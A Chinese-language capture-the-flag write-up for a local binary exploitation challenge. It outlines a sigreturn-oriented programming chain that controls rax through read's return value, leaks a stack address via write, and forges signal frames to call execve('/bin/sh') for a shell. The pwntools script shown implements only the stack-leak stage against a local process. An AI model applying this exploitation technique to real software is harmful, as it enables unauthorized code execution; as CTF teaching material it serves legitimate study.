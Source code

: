 ```asm=
```

#### checksec:

![image](https://hackmd.io/_uploads/Hk8VWxXiC.png)

#### ida:

![image](https://hackmd.io/_uploads/r1t0-x7sC.png)

#### 解題整理

rax 代表你可以控 syscall 中的哪一個東西

看完 source 之後會發現，他其實利用了 systemcall table 的 read，因為在 Linux 中 rax = 0 會變成 call read

在考慮偽造 Signal Frame 的情況下，我們可以對多個暫存器以及堆疊指標進行控制，做到 syscall(59,'/bin/sh',0,0)；59 就是 execve，相當於 execve("/bin/sh",0,0)；
我們透過控制 read 讀入的位元組數，控制 rax=1，執行 write 系統呼叫，藉此洩漏堆疊位址。
偽造 Signal Frame 來實現 read，在指定位址讀入 "/bin/sh"。
控制 read 讀入的位元組數，實現 sigreturn 函式，套用我們剛剛偽造的暫存器和堆疊指標資訊。
在新的堆疊處，偽造 Signal Frame 來實現 execve。
再次控制 read 讀入的位元組數，觸發 sigreturn，最終拿到 shell。

#### 解題思路

![image](https://hackmd.io/_uploads/SJQ-IXmoC.png)

##### Leak Stack addr

程式運行的邏輯是 ret 第一次 -> call read -> 送 1bytes 進去 -> ret 第二次 call write 

- 而這邊有一個 trick 是 rax return value 是讀到幾個 bytes

```python3=
from pwn import *
import time

context.arch='amd64'

r=process('./chal')

#DEBUG=raw_input('Debug:y/n'+'\n')
DEBUG=input('Debug:y/n'+'\n')

if DEBUG=="y":
    context.log_level = 'debug'
    context.arch = 'amd64'
    context.os = 'linux'
    context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
def p():
    gdb.attach(r)


payload1 = p64(0x401000)+p64(0x401000) # read -> write

r.send(payload1)

time.sleep(0.5)

r.send(b'\x03')

leak_stack=u64(r.recv()[8:16])

print('leak libc: ',hex(leak_stack))

```